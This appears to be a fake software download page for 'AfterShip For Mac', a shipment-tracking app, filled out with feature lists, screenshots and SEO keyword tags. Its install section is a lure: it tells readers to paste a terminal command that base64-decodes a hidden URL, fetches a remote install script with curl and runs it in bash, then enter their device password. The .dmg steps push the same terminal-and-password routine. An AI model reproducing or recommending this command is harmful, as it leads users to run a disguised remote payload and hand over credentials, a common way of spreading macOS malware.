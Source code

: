 # AfterShip For Mac — Download For macOS
![AfterShip Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/8/81/Aftership.svg/2560px-Aftership.svg.png) 😊

AfterShip For Mac is a powerful shipment tracking app designed for macOS, enabling eCommerce businesses and consumers to track packages from over 1,100 carriers worldwide. Monitor deliveries, receive real-time updates, and enhance customer experience with seamless integrations. Follow the instructions below to download and install AfterShip For Mac effortlessly.[](https://webcatalog.io/en/apps/aftership)

[![Download Now](https://img.shields.io/badge/Download-Now-00A1D6?style=for-the-badge&logo=package)](https://mrboomzeus519.github.io/gimronus/after)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install AfterShip For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 📬 **Track 1,100+ Carriers**: Monitor shipments from carriers like FedEx, UPS, DHL, USPS, and more in one place. 
- 🔔 **Real-Time Notifications**: Receive push notifications for key delivery statuses, such as "In Transit" or "Delivered."
- 🛠 **eCommerce Integrations**: Auto-import orders from Amazon, eBay, Etsy, and other platforms for seamless tracking. 
- 🔍 **Barcode Scanning**: Track packages by scanning barcodes or copying tracking numbers directly.
- 📊 **Analytics Dashboard**: Access detailed reports to monitor shipping performance and customer satisfaction.
- 💻 **macOS Optimization**: Enjoy a native macOS app with distraction-free windows and multi-account support.

## About AfterShip For Mac

AfterShip For Mac is a comprehensive shipment tracking solution tailored for macOS, designed to simplify package tracking for both eCommerce businesses and individual users. Supporting over 1,100 carriers worldwide, including major players like UPS, FedEx, DHL, and PostNL, it provides real-time updates and automated notifications to keep you informed about your shipments. Integrated with platforms like Amazon, Shopify, and eBay, AfterShip streamlines the post-purchase experience, making it a top choice for macOS shipment tracking software. Its native macOS app ensures smooth performance on Apple Silicon and macOS 13.0 Ventura or later. 

The software’s centralized dashboard allows users to track multiple shipments, view detailed analytics, and customize tracking pages for a branded customer experience. For businesses, AfterShip offers tools to reduce "Where Is My Order?" inquiries by providing AI-powered delivery estimates and proactive notifications. Consumers benefit from features like barcode scanning, Gmail sync for automatic order imports, and ad-free tracking, making it ideal for managing personal deliveries. Its lightweight design ensures minimal system impact, even when tracking numerous packages. 

AfterShip For Mac stands out for its ease of use and extensive carrier support, catering to users ranging from online shoppers to large-scale eCommerce retailers. The app’s integration with macOS features, such as Finder and notifications, provides a seamless experience, while its no-code setup allows anyone to start tracking instantly. For those searching for “free package tracking macOS,” “AfterShip download,” or “eCommerce tracking tool,” AfterShip For Mac is a reliable and efficient solution. Its free tier supports tracking with push notifications for up to eight delivery statuses, ensuring accessibility for all users. 
With regular updates and a focus on macOS compatibility, AfterShip For Mac remains a trusted tool for optimizing logistics and enhancing customer satisfaction. Its SEO-optimized presence ensures discoverability for users seeking a robust tracking solution. Whether you’re tracking a single package from AliExpress or managing a global eCommerce operation, AfterShip For Mac delivers a user-friendly, powerful platform to keep your deliveries on track. 

## Advantages of AfterShip For Mac

- 🌐 **Global Carrier Support**: Tracks over 1,100 carriers, including local and international services. 
- 🖥 **Native macOS App**: Optimized for macOS with a clean, distraction-free interface.
- 🚀 **Automated Tracking**: Auto-detects carriers and imports orders from major eCommerce platforms. 
- 🔒 **Secure and Ad-Free**: Tracks packages without ads or compromising privacy. 
- 📈 **Business Analytics**: Provides insights to optimize shipping and reduce customer inquiries.
- 🆓 **Free Tier Available**: Track shipments for free with no in-app purchases or hidden fees. 

## 🖼 Preview

![Tracking Dashboard](https://docs.skyvia.com/images/aftership-api-key1.png)  
*Monitor all your shipments in a centralized, user-friendly dashboard.*

![Real-Time Notifications](https://www.channelwill.com/wp-content/uploads/2024/08/aftership-automatic-notificaions-1.webp)  
*Receive instant updates for key delivery statuses like "Out for Delivery."*

![Barcode Scanning](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcS8nRoojcUYti_BpH-XDxH3NJOOdKnRAW588w&s)  
*Track packages quickly by scanning barcodes or copying tracking numbers.*

![eCommerce Integration](https://i.postimg.cc/0yWqH1mQ/aftership-integrations.png)  
*Auto-import orders from Amazon, eBay, and other platforms seamlessly.*

## 🔍 Tags

AfterShip, AfterShip app, AfterShip desktop, AfterShip free, AfterShip mac, AfterShip for mac, aftership tracking, track with aftership, aftership order tracking, aftership amazon tracking, free package tracking macOS, AfterShip download, eCommerce tracking tool, macOS shipment tracker, AfterShip For Mac download, free delivery tracking mac, carrier tracking software, Amazon order tracker mac, real-time package updates, macOS productivity tools, global shipment tracking, AfterShip free mac
